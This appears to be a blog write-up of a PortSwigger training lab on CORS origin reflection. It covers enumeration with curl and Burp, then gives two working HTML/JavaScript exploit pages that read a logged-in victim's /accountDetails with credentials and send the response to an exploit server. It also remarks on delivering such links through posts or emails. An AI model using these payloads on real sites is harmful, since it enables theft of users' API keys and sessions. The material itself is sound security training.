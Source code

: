 ```yaml
--- 
title: "CORS Vulnerability With Basic Origin Reflection"
author: ""
date: 2024-02-27T12:45:37+01:00
description: ""
draft: true
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
```

#### Entities
Asset: https://0a6400570375230c80940876001500ca.web-security-academy.net

#### Enumeration
Access the lab, add the domain - without the protocol scheme - to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page and all embedded links via a script using the given credentials `wiener:peter`.
```shell
# inspect `/` route and embedded links via Burp's Proxy
URL="https://0a6400570375230c80940876001500ca.web-security-academy.net"
for path in $(curl -s $URL | grep -o 'href="[^"]*"' | cut -d'"' -f2); do
  echo "$(curl -skL -x 127.0.0.1:8080 -w "%{http_code} %{url_effective} -> %{redirect_url}" -o /dev/null $URL$path)"
done
```
View result on Burp Proxy's HTTP history, and with FoxyProxy Browser Extension configured for Burp turned on - not the Burp Proxy intercept - browse through the URLs that sticks out, hitting all possible resource you can find. The `/my-account` route which redirects to the `/login` when requested with valid credentials makes a POST request with an `Origin` header; `csrf`, `username` and `password` parameters and a GET request for `/accountDetails` after the login which shows sensitive credentials in the response with the `Access-Control-Allow-Credentials: true` set.  

![Enumeration](/images/cors1/01-enumerate-index-route.png "Enumeration")  

#### Exploration
Armed with this insight, send the GET `/accountDetails` to Burp Repeater. Verify a CORS flaw at `/accountDetails` by removing the `Referer` header and adding an `Origin` header switching the value to an arbitrary domain and observe the response reflected the `Access-Control-Allow-Origin` arbitrary domain value.   

![Exploration](/images/cors1/02-explore-abitrary-domain-as-origin.png "Exploration") 

#### Exploitation
Now exploit yourself while logged in with the below script.
```shell
<html lang="en">
<body>
  <script>
    function exploitCORS(appURL, exploitServer) {
      fetch(appURL, { credentials: 'include' })
      .then(response => response.text())
      .then(data => {
        fetch(exploitServer + data)
      })
      .catch(error => alert('Error fetching page: ' + error));
    }
    exploitCORS(
      'https://0a6400570375230c80940876001500ca.web-security-academy.net/accountDetails',
      'http://localhost:8000/?log='
    );
  </script>
</body>
</html>
```
Start a local server with `python3 -m http.server -b 127.0.0.1 8000 -d .` from within the directory where the above script is saved as index.html. Then run `google-chrome http://127.0.0.1:8000` and see your own credential displayed. You can also use to above script to exploit the administrator after changing the exploit server to portswigger's.

The condition for exploiting this flaw is that the target victim must be logged into their account, such that when they click the payload delivered to them, it gets the content of `/accountDetails` and logs that request to attacker's server. It is important to note that the PortSwigger lab simulates delivering the payload to the target victim and the response received at `/log` path of the exploit server. However in engagement the payload is usually set as a link in seemingly harmless articles or social media post or even emailed to them.  
```shell
<html lang="en">
<body>
  <script>
    var appServer = 'https://0a6400570375230c80940876001500ca.web-security-academy.net'
    var exploitServer = 'https://exploit-0a91002e0313235d80ad0765011300a1.exploit-server.net'
    var xhr = new XMLHttpRequest();
    xhr.open('GET', appServer + '/accountDetails', true);
    xhr.withCredentials = true;
    xhr.onreadystatechange = function() {
      if (xhr.readyState == XMLHttpRequest.DONE && xhr.status == 200) {
        fetch(exploitServer + '/log=' + xhr.responseText)
      }
    };
    xhr.send();
  </script>
</body>
</html>
```
Paste the above on the exploit server and deliver exploit to victim.  

![Exploitation](/images/cors1/03-exploit-abitrary-domain-as-origin.png "Exploitation") 

#### Exfiltration
Access the exploit server log and copy the value of `/log=` path. Now run it through a url decoder to extract the apikey.  

![Exfiltration](/images/cors1/04-exfiltrate-abitrary-domain-as-origin-spoil.png "Exfiltration") 
```shell
urlencode -d '%7B%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22a0IydfTG1C1PHw7fgY4eoY6FcVVKvRGm%22,%20%20%22sessions%22:%20[%20%20%20%20%222fbOjlD7InD7crx0XK3djXJhrjlfZiyA%22%20%20]%7D' | jq . | tee cors-vulnerability-with-basic-origin-reflection-spoil.json
```  

![Solution](/images/cors1/05-lab-solution.png "Solution")   

#### Resources
- https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack
- https://github.com/knoxknot/portswigger/01-cors-vulnerability-with-basic-origin-reflection